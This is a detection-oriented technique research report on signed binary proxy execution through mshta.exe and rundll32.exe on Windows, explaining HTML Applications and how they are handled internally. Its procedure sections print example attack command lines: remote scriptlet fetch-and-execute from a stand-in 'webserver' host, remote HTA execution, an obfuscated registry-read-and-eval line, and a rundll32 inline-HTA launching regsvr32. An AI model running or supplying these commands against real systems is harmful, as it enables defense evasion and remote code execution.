

# Signed Binary Proxy Execution with MSHTA

## Metadata

| Key          | Value           |
|--------------|-----------------|
| ID           | TRR0016         |
| External IDs | [T1218.005]     |
| Tactics      | Defense Evasion |
| Platforms    | Windows         |
| Contributors | Andrew VanVleet |

## Technique Overview

Mshta.exe is a Microsoft-signed utility that executes Microsoft HTML
Applications (`.HTA`) files. HTML Applications are standalone applications that
execute using the same models and technologies of Internet Explorer, but outside
of the browser and the strict security constraints imposed by Internet Explorer.
This makes HTML Applications and Mshta.exe an attractive option for attackers:
it allows an attacker to execute arbitrary application code with a signed,
trusted Microsoft binary.

## Technical Background

**What is an HTML Application?**

An HTML Application (HTA) is a standalone web application whose source code
consists of any combination of HTML, Dynamic HTML, and the scripting languages
supported by Internet Explorer, including JavaScript, VBScript, and Jscript. The
usual file extension of an HTA is `.hta`, though a properly formatted HTML
Application can be executed via mshta.exe with nearly any extension (details on
extension limitations are addressed in the next section).

HTML Applications are rendered by mshta.exe using the same MSHTML (also called
Trident) engine that powers Internet Explorer on Windows. However, mshta.exe
does not impose the same security constraints that Internet Explorer does. HTAs
run as "fully trusted" applications that can carry out actions that Internet
Explorer would never permit in a webpage. For example, all scripting [command
identifiers] are supported without limitation, and HTAs have read/write access
to files and the system registry on the client machine. Internet Explorer zone
security doesn’t apply to HTAs, so they can run embedded Microsoft ActiveX
controls and Java applets irrespective of the zone security setting on the
client machine. No warning displays before such objects are run within an HTA.
HTAs run outside of the Internet Explorer process, and therefore are not subject
to the security restrictions imposed by IE's Protected Mode.

Most of the functionality of the MSHTML engine is accessed via functions
exported by the library 'mshtml.dll.'

**What does an HTML Application look like?**

An HTML application is simply a web page with an HTA:APPLICATION header that
defines how the window displaying the application should be rendered (for
example, if it should show the minimize and maximize buttons and whether or not
it should be displayed in the taskbar). The `HTA:APPLICATION` header is actually
optional: a webpage saved as an .hta file will also be opened as an HTML
Application when double-clicked. However, when the `HTA:APPLICATION` header is
present, the file can carry any extension that is not associated as a `text` or
`image` MIME file type and `mstha.exe`[^2] will find the HTA content and execute
it. One researcher even demonstrated that they could append an HTML Application
to the end of calc.exe, and when they executed the appended file with mhsta.exe
("mshta.exe appendedcalc.exe"), the HTA code would be found and executed.[^1]

Here is a simple example of a 'malicious' HTA Application:

![[Image of an example 'malicious' HTA Application]](images/hta_application.png)

**What are the benefits of using a Microsoft-signed binary?**

Adversaries may bypass process and/or signature-based defenses by proxying
execution of malicious content with signed or otherwise trusted binaries.
Binaries used in this technique are often Microsoft-signed files, indicating
that they have been either downloaded from Microsoft or are already native in
the operating system. Binaries signed with trusted digital certificates can
typically execute on Windows systems protected by digital signature validation
or application allowlisting.

Mshta and RunDll32 are both native, signed binaries that are typically trusted
to execute, even under strictly controlled systems.

```text
 PS\> get-authenticodesignature -FilePath C:\windows\System32\mshta.exe

 SignerCertificate Status Path
 ----------------- ------ ----
 D8FB0CC66A08061B42D46D03546F0D42CBC49B7C Valid mshta.exe

 PS\> get-authenticodesignature -FilePath C:\windows\System32\rundll32.exe

 SignerCertificate Status Path
 ----------------- ------ ----
 71F53A26BB1625E466727183409A30D03D7923DF Valid rundll32.exe
```

### The `mshtml.dll` Library  and RunHTMLApplication

Mshta.exe is simply a wrapper for the `mshtml.dll` library that implements the
MSHTML engine. After launching, `Mshta.exe` looks up the DLL associated with an
HTML Application (using the associated GUID of
`{25336920-03F9-11cf-8FD0-00AA00686F13}`) in the registry and loads that DLL
dynamically. On Windows 10 and 11, this DLL is `mshtml.dll`. It then calls the
DLL's `RunHTMLApplication` export and passes on the command line arguments
provided to it at execution.


The `RunHTMLApplication` function takes the command line arguments, which will
include either the inline script or the path to an HTML Application file, and
parses them. In the case of a file, it will open the file and retrieve the
contents, which it then renders as a website. In the case of an inline script,
it will process the command line the same as though it were a URL typed into
Internet Explorer. It passes the command line parameters to the function
`CreateURLMoniker` (exported by urlmon.dll), which parses the input to identify
the protocol in use (for example, `https` in `https://www.google.com` or `file`
in `file://c:\windows\system32\mshta.exe`). It looks up the protocol in the
registry (`HKEY_CLASSES_ROOT\PROTOCOLS\Handler`) to find an assigned handler and
loads the handler. Once the handler for the protocol has been identified, the
URL (command line) is passed to the handler to be rendered accordingly. (In the
case of the `vbscript`, `javascript`, and `about` protocols, the handler is
actually `mshtml.dll` again, so another call is made back to a function in
`mshtml.dll` to render the command line.)

## Procedures

| ID | Title | Tactic |
|----|----|----|
| TRR0016.WIN.A | Mshta executing HTA files or inline scripts | Defense Evasion |
| TRR0016.WIN.B | RunDll32 calling RunHTMLApplication from mshtml.dll | Defense Evasion |

### Procedure A: Mshta executing HTA files or inline scripts

Here are some examples of malicious uses of MSHTA.exe to execute HTA files or
inline scripts:

```text
mshta.exe using the VBScript protocol:
  mshta.exe vbscript:CreateObject("WScript.Shell").Run("notepad.exe")(window.close) 

mshta.exe using the javascript protocol:
  mshta.exe javascript:a=GetObject("script:https://webserver/payload.sct").Exec();close();

mshta.exe using the javascript protocol, somewhat obfuscated:
  mshta.exe javascript:dxdkDS="kd54s";djd3=newActiveXObject("WScript.Shell");vs3skdk="dK3";
  sdfkl3=djd3.RegRead("HKCU\\software\\klkndk32lk");esllnb3="3m3d";
  eval(asdfkl2);dkn3="dks";

mshta.exe using the about protocol:
  mshta.exe about:\<script\>a=GetObject("script:https://webserver/payload.sct").Exec();close();\</script\>

mshta.exe executing a remote HTA file:
  mshta.exe https://tdatsting.s3.us-east-2.amazonaws.com/jscript.hta

mshta.exe executing a local HTA file:
  mshta.exe jscript.hta

mshta.exe executing a local HTA file with an arbitrary name and extension: 
  mshta.exerandomfilename.randomextension 

mshta.exe when an HTA file is double-clicked:
  "C:\Windows\System32\mshta.exe" "C:\Users\pXXXXXX\Downloads\vbscript.hta"
  {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}
```

#### Detection Data Model



Because this technique is "Signed Binary Proxy Execution," a fundamental aspect
of the technique is to use the Microsoft signed binary (either `mshta.exe` or
`rundll32.exe`). A different or modified binary (which would break the
cryptographic signature) would not qualify, because the binary is no longer
trusted. This makes the technique rather unique: whereas normally an attack can
be performed by ANY binary and as such a command line-focused detection is a bad
idea, here the actual signed binary is an essential and critical element.

Looking at the DDM, there is a clear shared operation for both procedures at the
point of loading the `mshtml.dll` library and calling the `RunHTMLApplication`
export. We don't have  telemetry for this operation, but we are lucky that the
command line arguments for `mshta.exe` get passed to the `RunHTMLApplication`
function without significant processing, so the command line must have certain
known elements in order to work: `vbscript`, `javascript`, `about`, `ftp`,
`ftps`, `http`, or `https`.

It is more difficult to detect the execution of a malicious HTA file. We can
detect a remotely-hosted HTA file by looking for a URL in the command line, but
a locally hosted HTA file will have little to distinguish it from any benign HTA
files being used in the environment. An HTA file that is downloaded externally
might carry a Mark-of-the-Web (MotW), but this isn't a 100% solution because the
MotW can be avoided or removed before execution through `mshta.exe`.

### Procedure B: RunDll32 calling RunHTMLApplication from mshtml.dll

This procedures functions almost identically as the previous one, but instead of
`mshta.exe` being used as a wrapper to call `mshtml.dll`'s `RunHTMLApplication`,
`rundll32.exe` is used to call it directly. This results in a completely
different Microsoft-signed binary hosting the HTA application code but is
otherwise identical.

Here is an example command line argument to do this (using the about protocol
  with an embedded HTA Application; there is [trickery going on] to make this
  command line work):

```text
rundll32.exe about:"\\.\mshtml,RunHTMLApplication   "%3Chta:application%3E%3Cscript%20language="JScript"%3Ea=new%20ActiveXObject("WScript.Shell");a.Run("regsvr32.exe%20%2Ds%20tda_cs_staged.dll",0,true);%3C/script%3E
```

#### Detection Data Model


Similar to procedure A, and to a more rigid degree, the command line provided to
`RunDll32.exe` must include `mshtml` and `RunHTMLApplication` in order to find
the right library and export.

## Available Emulation Tests

| ID            | Link             |
|---------------|------------------|
| TRR0016.WIN.A | [Atomic Tests 1-6, 8-10] |
| TRR0016.WIN.B | [Atomic Test 7] |

## References

- [HTML Applications - Microsoft Learn]
- [Introduction to HTML Applications - Microsoft Learn]
- [HTML Application - Wikipedia]
- [HTA:APPLICATION - Microsoft Learn]
- [Trident - Wikipedia]
- [MSHTA - Red Canary]
- [Theat Research Questions - Red Canary]
- [Poweliks Command Line Confusion - StormShield Blog]

[T1218.005]: https://attack.mitre.org/techniques/T1218/005/  
[command identifiers]: https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/hh801237(v=vs.85)
[trickery going on]:
    https://www.stormshield.com/news/poweliks-command-line-confusion/
[Atomic Tests 1-6, 8-10]: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.005/T1218.005.md
[Atomic Test 7]: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.005/T1218.005.md#atomic-test-7---invoke-html-application---jscript-engine-with-rundll32-and-inline-protocol-handler
[HTML Applications - Microsoft Learn]: https://learn.microsoft.com/en-us/previous-versions//ms536471(v=vs.85)
[Introduction to HTML Applications - Microsoft Learn]: https://learn.microsoft.com/en-us/previous-versions//ms536496(v=vs.85)
[HTML Application - Wikipedia]: https://en.wikipedia.org/wiki/HTML_Application
[HTA:APPLICATION - Microsoft Learn]: https://learn.microsoft.com/en-us/previous-versions//ms536495(v=vs.85)
[Trident - Wikipedia]: https://en.wikipedia.org/wiki/Trident_(software)
[MSHTA - Red Canary]: https://redcanary.com/threat-detection-report/techniques/mshta/
[Theat Research Questions - Red Canary]: https://redcanary.com/blog/threat-research-questions/
[Poweliks Command Line Confusion - StormShield Blog]: https://www.stormshield.com/news/poweliks-command-line-confusion/

[^1]: [Hacking Around HTA Files - Sevagas blog](https://blog.sevagas.com/?Hacking-around-HTA-files)
[^2]: This file extension limit appears to be because file types associated as
`text` or `image` MIME types have their own renderer in the MSHTML engine, so
the HTA code is never rendered as an HTML Application.
